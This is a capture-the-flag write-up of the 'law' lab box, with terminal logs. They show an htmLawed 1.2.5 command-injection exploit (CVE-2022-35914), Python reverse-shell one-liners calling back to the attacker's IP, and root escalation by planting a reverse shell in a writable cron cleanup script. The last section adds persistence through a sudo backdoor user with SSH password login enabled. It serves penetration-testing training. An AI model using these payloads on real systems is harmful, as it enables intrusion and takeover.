

# law (rough notes)

```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -v -p- -T4 law           
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: htmLawed (1.2.5) test
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



Looked up htmLawed 1.2.5 for well-known vulnerabilities.

Found CVE-2022-35914, and POC in [https://github.com/cosad3s/CVE-2022-35914-poc](https://github.com/cosad3s/CVE-2022-35914-poc).

I modify the exploit code to point to the root path on the webserver (as that is where the htmlawed test page is hosted... even though the POST form has the action to send it to `htmLawedTest.php`)


... that took me a while to find.

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'echo hello world'
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 0):
 hello world
```

It works!

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'which python'                                                                                                                             
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 1):
```

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'which python3'
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 0):
 /usr/bin/python3
```

We have python3! I write a `command.txt` file to avoid running into quote escaping annoyances... I plan on then `cat`-ing the file, see below:

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ cat command.txt      
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.239",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c "$(cat command.txt)"     
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

(hanging...)
```

And we get a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.184.190] 48024
www-data@law:/var/www/html$ whoami
whoami
www-data
```

We find our first flag

```
www-data@law:/var/www$ ls
ls
cleanup.sh  html  local.txt
www-data@law:/var/www$ cat local.txt
cat local.txt
3bef8ab477c9cc271e12171aec659ec5
```

## Privilege Escalation

No odd cronjobs

```
www-data@law:/var/www/html$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

There's an interesting binary with SGID...

```
www-data@law:/var/www/html$ ls -la /usr/bin | grep -e sr            
ls -la /usr/bin | grep -e sr
-rwxr-sr-x  1 root shadow    80256 Feb  7  2020 chage
-rwsr-xr-x  1 root root      58416 Feb  7  2020 chfn
-rwsr-xr-x  1 root root      52880 Feb  7  2020 chsh
-rwxr-sr-x  1 root crontab   43568 Feb 22  2021 crontab
-rwxr-sr-x  1 root mail      23040 Feb  4  2021 dotlockfile
-rwxr-sr-x  1 root shadow    31160 Feb  7  2020 expiry
-rwsr-xr-x  1 root root      34896 Feb 26  2021 fusermount
-rwsr-xr-x  1 root root      88304 Feb  7  2020 gpasswd
-rwsr-xr-x  1 root root      55528 Jan 20  2022 mount
-rwsr-xr-x  1 root root      44632 Feb  7  2020 newgrp
-rwsr-xr-x  1 root root      63960 Feb  7  2020 passwd
-rwsr-xr-x  1 root root      23448 Jan 13  2022 pkexec
-rwxr-sr-x  1 root ssh      354440 Jul  1  2022 ssh-agent
-rwsr-xr-x  1 root root      71912 Jan 20  2022 su
-rwsr-xr-x  1 root root     182600 Jan 14  2023 sudo
-rwsr-xr-x  1 root root      35040 Jan 20  2022 umount
-rwxr-sr-x  1 root tty       35048 Jan 20  2022 wall
-rwxr-sr-x  1 root tty       22760 Jan 20  2022 write.ul
```

`write.ul`...

I dont find any way to usefully abuse this binary...

I'll try using [`pspy`](https://github.com/DominicBreuker/pspy) to get running processes...

(I downloaded the "64 bit big, static version" from the links in the README there)

Found some interesting processes running as root. Particularly that cleanup script in `/var/www/cleanup.sh`

```
www-data@law:/var/www/html$ ./pspy64 -pf -i 1000
./pspy64 -pf -i 1000
              ( ... output omitted... )
2024/03/06 11:32:01 CMD: UID=0     PID=922    | /usr/sbin/CRON -f
              ( ... output omitted... )
2024/03/06 11:32:01 CMD: UID=0     PID=923    | /bin/bash /var/www/cleanup.sh 
              ( ... output omitted... )
```

We go find that script

```
www-data@law:/var/www$ ls -la
ls -la
total 20
drwxr-xr-x  3 root     root     4096 Aug 25  2023 .
drwxr-xr-x 12 root     root     4096 Aug 24  2023 ..
-rwxr-xr-x  1 www-data www-data   82 Aug 25  2023 cleanup.sh
drwxr-xr-x  2 www-data www-data 4096 Mar  6 11:29 html
-rw-r--r--  1 www-data www-data   33 Mar  6 11:21 local.txt
```

We notice that it is writable! yay!

Contents of the script originally:

```
www-data@law:/var/www$ cat cleanup.sh	
cat cleanup.sh
#!/bin/bash

rm -rf /var/log/apache2/error.log
rm -rf /var/log/apache2/access.log
```

I'll dump a reverse shell in there.

I'm having trouble writing it in this shitty shell, so I write the script in my kali machine and intend on downloading it here.

I start my local listener to catch the reverse shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4100              
listening on [any] 4100 ...
```

Then fetch the script and write it to the target file within the victim box:

```
www-data@law:/var/www$ wget -q -O- http://192.168.45.180/cleanup.sh > cleanup.sh                     
<q -O- http://192.168.45.180/cleanup.sh > cleanup.sh
```

I verify it looks good:

```
www-data@law:/var/www$ cat cleanup.sh
cat cleanup.sh
#!/bin/bash

rm -rf /var/log/apache2/error.log
rm -rf /var/log/apache2/access.log

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.180",4100));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Our python server in kali also shows the download come in

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.211.190 - - [06/Mar/2024 08:44:22] "GET /cleanup.sh HTTP/1.1" 200 -
```

...and within 30 seconds or so we have a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4100              
listening on [any] 4100 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.211.190] 51792
root@law:~# whoami
whoami
root
```

And we find our flag where we expect to find it:

```
root@law:~# cd /root
cd /root
root@law:~# ls -la | grep proof
ls -la | grep proof
-rw-r--r--  1 root root   33 Mar  6 11:21 proof.txt
root@law:~# cat proof.txt
cat proof.txt
295be6ea6387915a63a71764444128da
```

We are done!

---


We go on to set up a new user for ssh... the usual:

- `sudo useradd -m hacker`
- `echo hacker:password | sudo chpasswd`
- `sudo usermod -aG sudo hacker`
- `echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config` (because we saw it was disabled)
- `systemctl restart ssh` (because we modified config)


And we test it out

```
┌──(kali㉿kali)-[~]
└─$ ssh hacker@law
hacker@law's password: 

...

$ sudo whoami
[sudo] password for hacker: 
root
```